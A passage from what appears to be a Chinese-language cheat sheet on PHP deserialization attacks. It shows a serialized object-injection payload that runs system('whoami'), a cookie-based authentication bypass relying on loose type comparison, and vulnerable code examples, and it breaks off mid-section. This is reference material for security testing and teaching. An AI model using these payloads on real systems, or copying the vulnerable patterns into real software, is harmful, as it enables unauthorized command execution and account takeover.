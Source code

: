 使用应用程序内现有代码制作有效载荷。

```php
# 基本序列化数据
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# 命令执行
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

## 认证绕过

### 类型转换

易受攻击的代码：

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

有效载荷：

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

因为 `true == "str"` 为真。

## 对象注入

易受攻击的代码：

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
